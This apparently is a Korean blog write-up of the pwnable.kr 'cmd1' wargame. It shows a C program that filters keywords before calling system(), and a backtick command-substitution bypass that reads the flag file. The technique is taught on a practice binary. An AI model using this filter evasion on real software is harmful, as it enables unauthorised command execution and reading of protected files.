 ```yaml
---
title: Pwnable.kr cmd1
categories: [Wargame]
tags: [Pwnable.kr]
path: '/articles/2016-08/Pwnable.kr-cmd1'
date: '2016-08-21T00:00:00.000Z'
comments: true
---
```


```c
cmd1@ubuntu:~$ cat cmd1.c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

flag, sh, tmp라는 문자열을 필터링하는 문제이다. 하지만 이 문제는 system함수를 사용하므로 쉘의 기능을 이용하는걸 생각해 보아야 한다.

<code><b>`command`</b></code> 를 할 경우 command를 실행한 후 그 프로그램의 `stdout`으로 나오는 내용을 쉘에서 실행하게 된다.

간단한 예제로 보게되면 다음과 같은 결과를 낼 수 있다.

```bash
cmd1@ubuntu:~$ `/bin/cat`
ls
^D
cmd1  cmd1.c  flag
```

**``**으로 감싼 cat을 실행할 때, cat은 입력을 그대로 출력한다.

그로인해 `ls`를 입력했는데, 이 내용이 `cmd1@ubuntu:~$ ls` 와 같이 수행되게 된다. 이를 이용하여 문제를 해결해 보도록 하겠다.

```bash
cmd1@ubuntu:~$ ./cmd1 "\`/bin/cat\`"
/bin/cat /home/cmd1/flag
mommy now I get what PATH environment is for :)
```
